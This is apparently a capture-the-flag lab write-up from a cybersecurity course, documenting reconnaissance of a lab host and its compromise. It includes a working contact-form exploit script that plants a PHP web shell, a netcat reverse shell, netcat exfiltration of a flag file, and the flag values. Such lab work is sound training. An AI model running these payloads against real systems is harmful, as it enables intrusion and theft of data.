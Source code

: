# Attacking Target 2

## Table of Contents
- [Discovering Vulnerabilities](#discovering-vulnerabilities)
- [Exploiting Discovered Vulnerability](#exploiting-discovered-vulnerability)
- [Flags](#flags)

### Discovering Vulnerabilities

- `nmap` scan
  - An nmap scan presented all abvailable ports.
    - Port 22 (SSH)
    - Port 80 (HTTP)
    - Port 111 (rpcbind)
    - Port 139 (netbios-ssn)
    - Port 445 (netbios-ssn)
  - `nmap -sS -sV 192.168.1.115`
- ![nmapscan](./Images/Target2/nmap%20scan%20target2.JPG)

- `nikto` scan
  - A nikto scan revealed all dangerous files/CGIs, outdated server software and other problems.
- ![niktoscan](./Images/Target2/nikto%20results.JPG)

- `gobuster` scan
  - A gobuster scan brute-forced all available URI's and DNS subdomains.
- ![gobusterscan](./Images/Target2/gobuster%20scan.JPG)

### Exploiting Discovered Vulnerability

-  A Contact Form 7 vulnerability was found.
  - This allowed an `exploit.sh` bash script to be run that allowed a `backdoor.php` file to be uploaded to the WordPress directory of the server.
```bash
#!/bin/bash
# Lovingly borrowed from: https://github.com/coding-boot-camp/cybersecurity-v2/new/master/1-Lesson-Plans/24-Final-Project/Activities/Day-1/Unsolved

TARGET=http://192.168.1.15/contact.php

DOCROOT=/var/www/html
FILENAME=backdoor.php
LOCATION=$DOCROOT/$FILENAME

STATUS=$(curl -s \
              --data-urlencode "name=Hackerman" \
              --data-urlencode "email=\"hackerman\\\" -oQ/tmp -X$LOCATION blah\"@badguy.com" \
              --data-urlencode "message=<?php echo shell_exec(\$_GET['cmd']); ?>" \
              --data-urlencode "action=submit" \
              $TARGET | sed -r '146!d')

if grep 'instantiate' &>/dev/null <<<"$STATUS"; then
  echo "[+] Check ${LOCATION}?cmd=[shell command, e.g. id]"
else
  echo "[!] Exploit failed"
fi
```

- The `backdoor.php` file allowed for execution of command injection attacks on the target website.
  - `http://<Target 2 URL>/backdoor.php?cmd=<CMD>` can now be run in the Kali browser that uses `backdoor.php` to open a shell session on the target.
  - `nc -lnvp 4444` was used on the Kali terminal to open a listening port on port `4444`.
  - On the Kali browser `http://<Target 2 URL>/backdoor.php?cmd=nc%20<Kali IP>%204444%20-e%20/bin/bash` was used and a shell session was obtained on the target.
- ![shellsession](./Images/Target2/shell%20session.JPG)

### Flags

- `flag1.txt`: `a2c1f66d2b8051bd3a5874b5b6e43e21`
  - **Exploit Used**
    - Discovery of website directory listing.
    - After running a `gobuster` scan, the directory listing was found for the target and the flag was found at `http://192.168.1.115/vendor/PATH`
  - Commands run:
    - `gobuster -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt dir -u http://192.168.1.115`
    - `http://192.168.1.115/vendor/PATH` (In Kali web browser.)

- `flag2.txt`: `6a8ed560f0b5358ecf844108048eb337`
  - **Exploit Used**
    - Contact Form 7 vulnerability.
    - The `exploit.sh` script was run and installed a `backdoor.php` file on the target WordPress server that allowed a shell session on the target and the flag was found in `/var/www/flag2.txt`.
  - Commands run:
    - `bash ./exploit.sh`
    - `nc -lnvp 4444`
    - `http://<Target 2 URL>/backdoor.php?cmd=nc%20<Kali IP>%204444%20-e%20/bin/bash' (In Kali web browser.)
    - `cd /var/www`
    - `cat flag2.txt`

- `flag3.png`: `a0f568aa9de277887f37730d71520d9b`
  - **Exploit Used**
    - Contact Form 7 vulnerability.
    - The `exploit.sh` script was run and installed a `backdoor.php` file on the target WordPress server that allowed a shell session on the target and the flag was found in `/var/www/html/wordpress/wp-content/uploads/2018/11/flag3.png`.
    - Netcat was used to exfiltrate the file to the attacking machine.
  - Commands run:
    - `bash ./exploit.sh`
    - `nc -lnvp 4444`
    - `http://<Target 2 URL>/backdoor.php?cmd=nc%20<Kali IP>%204444%20-e%20/bin/bash' (In Kali web browser.)
    - `find /var/www -type f -iname 'flag*'`
    - `nc -l -p 4444 > flag3.png` (recieving)
    - `cat flag3.png | netcat 192.168.1.90 4444` (sending)
- ![flag3](./Images/Target2/flag3.JPG)

